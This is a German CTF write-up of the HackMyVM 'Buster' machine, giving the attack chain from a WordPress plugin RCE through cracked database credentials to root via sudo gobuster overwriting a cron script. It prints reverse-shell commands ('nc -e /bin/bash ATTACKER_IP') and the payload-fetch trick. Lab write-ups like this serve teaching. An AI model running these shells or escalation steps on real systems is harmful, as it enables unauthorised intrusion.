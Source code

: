 # Buster - HackMyVM (Easy)

![Buster Icon](buster.png)

## Übersicht

*   **VM:** Buster
*   **Plattform:** [HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=buster)
*   **Schwierigkeit:** Easy
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 2025-01-26
*   **Original-Writeup:** https://alientec1908.github.io/buster_HackMyVM_Easy/ (Autor: Ben C.)

## Kurzbeschreibung

Die virtuelle Maschine "Buster" von HackMyVM (Schwierigkeitsgrad: Easy) präsentierte eine Reihe von Schwachstellen, die eine schrittweise Kompromittierung bis zum Root-Zugriff ermöglichten. Der initiale Zugriff erfolgte über eine Remote Code Execution (RCE) Schwachstelle in einem WordPress Plugin (vermutlich WP Query Console). Durch Post-Exploitation wurden Datenbank-Credentials offengelegt, die das Knacken eines lokalen Benutzerpassworts erlaubten. Eine unsichere `sudo`-Konfiguration für diesen Benutzer ermöglichte schließlich die Manipulation eines Cronjobs und damit die Erlangung von Root-Rechten.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `nmap`
*   `ip`, `grep`, `awk`, `sort` (für IPv6 Nmap Target Discovery)
*   `curl`
*   `nikto`
*   `gobuster`
*   `jq`
*   `wpscan`
*   `msfconsole` (im Writeup gelistet, aber konkrete Nutzung nicht ersichtlich, ggf. für Recherche)
*   `searchsploit` (im Writeup gelistet, aber konkrete Nutzung nicht ersichtlich, ggf. für Recherche)
*   `hydra` (im Writeup gelistet, aber konkrete Nutzung nicht ersichtlich)
*   `wfuzz` (im Writeup gelistet, aber konkrete Nutzung nicht ersichtlich)
*   Burp Suite
*   `tcpdump`
*   `nc` (netcat)
*   `stty`
*   `python3` (für HTTP Server)
*   `ls`, `cat`, `id`, `su`, `find`, `ss`, `echo`, `chmod`, `mkdir`
*   `mysql` (Client)
*   `john` (John the Ripper)
*   `sudo`
*   `pspy`

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Buster" erfolgte in mehreren Schritten:

1.  **Reconnaissance & Enumeration:**
    *   Ziel-IP (`192.168.2.162`, Hostname `buster.hmv`) mittels `arp-scan` und Eintrag in `/etc/hosts` identifiziert.
    *   Umfangreiche `nmap`-Scans (TCP, UDP, SCTP, IPv6, Vuln-Scripts) zeigten offene Ports 22 (OpenSSH 7.9p1) und 80 (Nginx 1.14.2), auf dem eine WordPress-Instanz (Version 6.7.1, Titel "bammmmuwe") lief. Zahlreiche CVEs wurden für SSH und Nginx gemeldet, aber nicht primär ausgenutzt.
    *   HTTP-Analyse mit `curl`, `nikto` und `gobuster` bestätigte WordPress und deckte Standardpfade, fehlende Sicherheitsheader und den `X-Redirect-By: WordPress` Header auf.

2.  **WordPress Analyse & Schwachstellenfindung:**
    *   Manuelle Analyse und `curl` der WordPress REST API (`/wp-json/wp/v2/users`) offenbarte den Benutzer `ta0`.
    *   Login-Fehlermeldungen bestätigten die Existenz von `ta0`.
    *   `wpscan` konnte kein Passwort für `ta0` finden, enumerierte aber einen weiteren Benutzer: `welcome`.
    *   Entdeckung des kritischen Endpunkts `/wp-json/wqc/v1/query` (vermutlich "WordPress Query Console").

3.  **Initial Access (RCE via WQC):**
    *   Der WQC-Endpunkt erlaubte via POST-Request mit JSON-Body (`{"queryArgs":"<PHP_CODE>","queryType":"post"}`) die Ausführung von PHP-Code.
    *   `phpinfo()` wurde ausgeführt; `disable_functions` war aktiv, ließ aber `shell_exec` zu.
    *   Blind RCE wurde via `shell_exec('ping ...')` und `tcpdump` bestätigt.
    *   Eine Reverse Shell wurde mit `shell_exec('nc -e /bin/bash ATTACKER_IP 4445')` als Benutzer `www-data` erlangt.

4.  **Post-Exploitation (als www-data):**
    *   Die Datei `wp-config.php` wurde gefunden und enthielt Datenbank-Credentials: Benutzer `ll104567` mit Passwort `thehandsomeguy`.
    *   Mit diesen Credentials wurde auf die lokale MySQL-Datenbank zugegriffen.
    *   Aus der Tabelle `wp_users` wurden die Passwort-Hashes (Format `$P$`) für `ta0` und `welcome` (`$P$BtP9ZghJTwDfSn1gKKc.k3mq4Vo.Ko/`) extrahiert.

5.  **Privilege Escalation (www-data zu welcome):**
    *   Der Passwort-Hash für `welcome` wurde mit `john` und `rockyou.txt` geknackt: `104567`.
    *   Mit `su welcome` und dem Passwort `104567` wurde erfolgreich zum Benutzer `welcome` gewechselt.
    *   Die User-Flag wurde im Home-Verzeichnis von `welcome` gefunden.

6.  **Privilege Escalation (welcome zu root):**
    *   `sudo -l` für `welcome` zeigte: `(ALL) NOPASSWD: /usr/bin/gobuster`.
    *   `pspy` deckte einen Cronjob auf, der minütlich als `root` das Skript `/opt/.test.sh` ausführt.
    *   Der Exploit:
        1.  Ein Reverse-Shell-Payload (`nc -e /bin/bash ATTACKER_IP 5555`) wurde in eine Datei `/tmp/payload` auf dem Zielsystem geschrieben.
        2.  Ein Python HTTP-Server wurde auf der Angreifer-Maschine gestartet, um `/tmp/payload` bereitzustellen.
        3.  `sudo gobuster dir -u http://ATTACKER_IP/tmp/payload -w <dummy_wordlist_containing_single_entry_that_resolves_to_payload> -o /opt/.test.sh` wurde ausgeführt. `gobuster` (als root) forderte den Payload vom Angreifer-Server an und schrieb dessen Inhalt (den `nc`-Befehl) dank der `-o` Option in `/opt/.test.sh`.
        4.  Der Cronjob führte kurz darauf `/opt/.test.sh` aus und etablierte eine Reverse Shell als `root`.
    *   Die Root-Flag wurde im `/root`-Verzeichnis gefunden.

## Wichtige Schwachstellen und Konzepte

*   **WordPress Plugin Schwachstelle (RCE):** Ein unsicherer API-Endpunkt (`/wp-json/wqc/v1/query`) erlaubte PHP-Code-Ausführung über `shell_exec` trotz einiger `disable_functions`.
*   **Klartext-Credentials:** Datenbankzugangsdaten in `wp-config.php`.
*   **Schwache Passwörter & Hash Cracking:** Ein WordPress-Benutzerpasswort (`$P$` Hash) konnte offline geknackt werden.
*   **Unsichere `sudo`-Konfiguration:** Erlaubte die Ausführung von `gobuster` als `root` ohne Passwort, was durch die `-o` Option (Output in Datei schreiben) missbraucht wurde.
*   **Cronjob Manipulation:** Ein als `root` laufender Cronjob, der ein von einem weniger privilegierten Benutzer (indirekt via `sudo gobuster`) beschreibbares Skript ausführt.
*   **Benutzer-Enumeration:** Über WordPress REST API und spezifische Login-Fehlermeldungen.
*   **Blind RCE:** Bestätigung der Codeausführung ohne direkte Ausgabe durch Überwachung des Netzwerkverkehrs (ICMP).

## Flags

*   **User Flag (`/home/welcome/user.txt`):** `29e0f786e8c90b3ce82e00de0ec7e7d3`
*   **Root Flag (`/root/R00t_fl4g_is_HHHHerererererrererere.txt`):** `b6a1a0de4223ba038327fc9c647701fb`

## Tags

`HackMyVM`, `Buster`, `Easy`, `WordPress`, `RCE`, `WQC`, `shell_exec`, `wp-config`, `Password Cracking`, `JohnTheRipper`, `Sudo Privilege Escalation`, `Gobuster`, `Cronjob Manipulation`, `pspy`, `Linux`, `Web`
